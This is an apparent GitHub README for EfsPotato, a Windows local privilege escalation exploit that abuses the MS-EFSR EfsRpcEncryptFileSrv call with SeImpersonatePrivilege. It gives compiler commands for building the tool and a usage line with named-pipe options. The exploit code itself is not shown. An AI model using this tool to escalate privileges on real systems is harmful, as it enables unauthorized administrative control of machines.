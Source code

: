 ## Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).

### build

	#for 4.x
	csc EfsPotato.cs
	csc /platform:x86 EfsPotato.cs
	
	#for 2.0/3.5
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs

### usage

	usage: EfsPotato <cmd> [pipe]
  	  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)

![](https://raw.githubusercontent.com/zcgonvh/EfsPotato/master/test.png)
 
